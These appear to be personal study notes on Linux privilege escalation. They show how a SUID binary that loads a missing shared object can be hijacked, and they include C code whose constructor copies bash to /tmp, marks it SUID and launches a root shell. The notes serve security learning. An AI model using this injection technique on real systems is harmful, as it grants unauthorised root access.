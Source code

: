 if we see 
` root     staff        9861 May 14  2017 /usr/local/bin/suid-so`

SUID and SGID for are highlighted 

if we run the SUID we do not know what is happening so we use strings we can se there is no file present as config


![](/Linux-Privilege-Notes/images/suid.png)
we can override libcalc.so add something malicious 

Code Below 
#include <stdio.h>
#include <stdlib.h>
static void inject() __attribute__((constructor));

void inject(){

   system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");


}



like below 

![](/Linux-Privilege-Notes/images/shared_object.png)
